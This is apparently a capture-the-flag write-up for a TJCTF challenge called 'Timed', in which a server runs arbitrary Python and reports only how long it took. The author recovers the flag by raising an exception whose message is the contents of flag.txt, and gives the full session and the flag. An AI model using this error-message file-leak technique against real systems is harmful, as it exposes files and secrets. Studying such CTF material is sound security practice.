

# Timed



When you connect to the server, you are able to execute python commands, and it tells you how long it took to execute that command.

```
$ nc p1.tjctf.org 8005
Type a command to time it!
5 + 5
Runtime: 3.09944152832e-06

Type a command to time it!
2 ** 100
Runtime: 9.53674316406e-07

Type a command to time it!
```

I assumed the flag would be in `flag.txt`

You aren't able to print to the screen, as that would be too easy.

```
Type a command to time it!
print("asdf")
Runtime: 1.00135803223e-05

Type a command to time it!
```

Then I thought because the title was called Timed, we can loop through each character of the flag and wait `ord(char)` seconds. That way, we can find each char by looking at how much time it took to execute each instruction. I spent some time trying that. I won't bore you about exactly what I did, in the end it failed.

I then remembered that you can throw your own errors by using Python's `raise`. Turns out, that's the solution!

```python
raise ValueError(open('flag.txt','r').read(100))
```

```
$ nc p1.tjctf.org 8005
Type a command to time it!
raise ValueError(open('flag.txt','r').read(100))
Traceback (most recent call last):
  File "/timed.py", line 36, in <module>
    time1=t.timeit(1)
  File "/usr/lib/python2.7/timeit.py", line 202, in timeit
    timing = self.inner(it, self.timer)
  File "<timeit-src>", line 6, in inner
    raise ValueError(open('flag.txt','r').read(100))
ValueError: tjctf{iTs_T1m3_f0r_a_flaggg}

Runtime: 0

Type a command to time it!
```

Flag: `tjctf{iTs_T1m3_f0r_a_flaggg}`
